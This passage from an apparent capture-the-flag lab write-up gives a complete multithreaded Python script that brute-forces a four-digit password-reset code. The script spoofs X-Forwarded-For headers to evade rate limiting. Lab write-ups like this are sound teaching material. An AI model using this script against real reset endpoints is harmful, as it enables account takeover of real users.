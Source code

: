 Now that we found a way to bypass the rate limit, I wrote a `Python` script for brute-forcing the recovery code.

```python
#!/usr/bin/env python3

import requests
import random
import threading

url = "http://10.10.63.156:1337/reset_password.php"
stop_flag = threading.Event()
num_threads = 50


def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"
        try:
            r = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},
                headers={
                    "X-Forwarded-For": f"127.0.{str(random.randint(0, 255))}.{str(random.randint(0, 255))}"
                },
                allow_redirects=False,
            )
            if stop_flag.is_set():
                return
            elif r.status_code == 302:
                stop_flag.set()
                print("[-] Timeout reached. Try again.")
                return
            else:
                if "Invalid or expired recovery code!" not in r.text:
                    stop_flag.set()
                    print(f"[+] Found the recovery code: {code_str}")
                    print("[+] Printing the response: ")
                    print(r.text)
                    return
        except Exception as e:
            #print(e)
            pass


def main():
    session = requests.Session()
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    print("[+] Starting the code brute-force.")
    code_range = 10000
    step = code_range // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()


```
